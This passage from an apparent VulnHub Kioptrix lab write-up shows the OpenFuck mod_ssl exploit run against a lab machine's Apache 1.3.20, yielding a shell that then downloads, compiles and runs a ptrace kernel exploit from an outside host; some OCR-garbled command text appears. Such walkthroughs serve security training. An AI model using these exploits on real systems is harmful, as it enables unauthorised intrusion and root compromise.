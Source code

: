 This would return a list of codes for various Linux version (Apache versions) and we need to select the one appropriate for us. We know that the machine is running on RedHat and has Apache version 1.3.20. So, from that list we need to select the code for entry having similar configurations.

As per our requirements, we can find two codes

```bash
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

So, we can try both one by one.

````bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$                                                                                                                 1./OpenFuck 0x6a 192.168.0.182         

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc080
Ready to send shellcode
Spawning shell...
Good Bye!
````

So, the one with `0x6a` does not appear to be working so we can try the code `0x6b`.

```bash
──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ ./OpenFuck 0x6b 192.168.0.182

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fa068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--08:20:29--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @ 547.01 KB/s

08:20:30 (348.10 KB/s) - `ptrace-kmod.c' saved [3921/3921]
```